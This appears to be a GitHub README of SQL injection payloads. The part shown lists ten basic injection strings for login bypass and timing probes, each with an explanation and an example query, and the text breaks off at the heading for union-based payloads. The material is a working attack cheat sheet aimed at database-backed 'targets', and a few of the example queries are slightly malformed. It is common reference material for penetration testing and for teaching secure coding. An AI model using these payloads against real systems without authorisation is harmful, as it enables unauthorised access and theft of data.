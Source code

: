 ![image-122](https://github.com/user-attachments/assets/99af8af7-3084-4fe9-8940-1ec7c8f8eb4d)

## SQLi-Sample-Payloads

Here are 10 prominent SQL injection (SQLi) payloads for each technique—Basic, Union-Based, Error-Based, and Blind SQLi—each with explanation and an example. These payloads are typical across MySQL, MSSQL, Oracle, and PostgreSQL targets.

## 1. Basic SQL Injection Payloads
These aim to manipulate input parameters to alter query logic, often for login bypass or data extraction.

1.>> ' OR '1'='1'--
   - Bypasses authentication by making the WHERE clause always true.
   - `SELECT * FROM users WHERE username = '' OR '1'='1'--' AND password = ''`

2.>> ' OR 1=1--
   - A variant for numeric fields, always returns true.
   - `SELECT * FROM data WHERE id = '1 OR 1=1--'`

3.>> ' OR 'a'='a
   - Alternative for non-numeric fields; always true.
   - `SELECT * FROM items WHERE name = '' OR 'a'='a'`

4.>> admin'--
   - Comments out rest of the query, possibly logging in as admin.
   - `SELECT * FROM users WHERE username = 'admin'--'`

5.>> ' OR 1=1#
   - MySQL-specific inline comment version.
   - `SELECT * FROM products WHERE id = '' OR 1=1#`

6.>> ' OR '' = '
   - Makes the condition always true on loosely validated fields.
   - `SELECT * FROM site WHERE info = '' OR '' = ''`

7.>> " OR "" = "
   - Double-quote variant for systems using " as string delimiter.
   - `SELECT * FROM posts WHERE text = "" OR "" = ""`

8.>> ' OR TRUE--
   - Explicitly invokes boolean TRUE.
   - `SELECT * FROM users WHERE id = '' OR TRUE--`

9.>> ' or sleep(5)--
   - Creates a delay to reveal SQLi via timing.
   - `SELECT * FROM products WHERE id = '' or sleep(5)--`

10.>> ') OR ('1'='1'--
    - Payload works in complex or nested queries.
    - `SELECT * FROM records WHERE (title = '') OR ('1'='1'--')`

## 2. Union-Based SQLi Payloads
Exploit the UNION operator to combine normal query results with data from other tables.
